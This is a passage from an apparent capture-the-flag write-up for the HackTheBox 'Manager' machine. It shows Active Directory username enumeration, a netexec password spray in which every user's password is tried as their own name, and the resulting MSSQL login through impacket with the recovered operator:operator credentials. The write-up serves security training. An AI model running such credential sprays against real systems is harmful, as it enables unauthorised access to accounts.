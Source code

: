 ```sh
2023/10/24 14:15:35 >  [+] VALID USERNAME:	 Guest@manager.htb
2023/10/24 14:15:35 >  [+] VALID USERNAME:	 Administrator@manager.htb
2023/10/24 14:16:27 >  [+] VALID USERNAME:	 Cheng@manager.htb
2023/10/24 14:18:21 >  [+] VALID USERNAME:	 jinwoo@manager.htb
2023/10/24 14:18:37 >  [+] VALID USERNAME:	 RYAN@manager.htb
```

It seems that we have 7 users on the AD.
```
ryan
guest
cheng
raven
administrator
operator
jinwoo
```

> Note that this is not the only way to enumerate users here. We could have done it with RID cycling, which is a way to enumerate users based on increasing the RID part of the SID. This is only possible if we can authenticate with a null sesssion to the SMB service.

Now that we have our users list, we can go and try a password spray attack with the `password = user`.

```sh
┌──(kali㉿kali)-[~/htb/windows]
└─$ netexec smb 10.10.11.236 -u users.txt -p users.txt --no-bruteforce
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\guest:guest STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE  
SMB         10.10.11.236    445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\administrator:administrator STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator
```

Now we have a username and a password: `operator:operator`.

# Foothold

We can connect to the SQL server using the `mssqlclient` from `impacket`. 

```sh
┌──(kali㉿kali)-[~/htb/windows]
└─$ impacket-mssqlclient -windows-auth -port 1433 -dc-ip 10.10.11.236 "manager.htb/operator:operator"@10.10.11.236
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database contNowext to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
```